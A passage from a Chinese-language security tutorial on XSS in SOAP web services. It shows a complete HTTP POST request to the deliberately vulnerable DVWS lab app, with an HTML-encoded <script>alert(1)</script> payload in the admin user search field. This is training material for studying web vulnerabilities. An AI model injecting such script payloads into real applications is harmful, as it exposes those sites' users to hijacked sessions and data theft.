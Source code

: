 ### XSS 攻击

跨站脚本 (XSS) 攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在 SOAP 中的 XSS 其实和传统的 Web 应用中的 XSS 也相差不大，只是数据包的构造方式有一些差别，在 DVWS 管理员用户搜索区域中存在 XSS 漏洞，我们可以发送 HTML 编码后的 JavaScript 到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```plain
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1706957905-b2fa418dba587e902a1af520cacc3808.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202093948-f36e0e18-c16b-1.png)

